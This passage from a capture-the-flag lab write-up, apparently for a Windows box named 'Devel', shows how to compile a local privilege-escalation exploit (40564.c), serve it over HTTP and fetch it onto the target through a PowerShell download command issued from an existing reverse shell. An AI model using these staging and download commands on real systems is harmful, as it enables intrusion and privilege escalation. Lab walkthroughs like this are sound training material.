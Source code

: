 ```python
apt-get install mingw-w64
```

After installation, we can then compile it with the following command:

```python
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

## Deploying Payload

To deploy the payload, we first have to upload the payload to the server

To do so, we can set up a simple http server:

```python
python3 -m http.server 9005
```

On the other side, we can download the file from the reverse shell we obtained via the following PowerShell Code:

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

![Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%2017.png](Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%2017.png)

Thereafter, we see that the payload is uploaded onto the designated downloads Folder:

![Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%2018.png](Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%2018.png)

Executing the payload will then allow us to escalate our privileges:

![Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%2019.png](Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%2019.png)
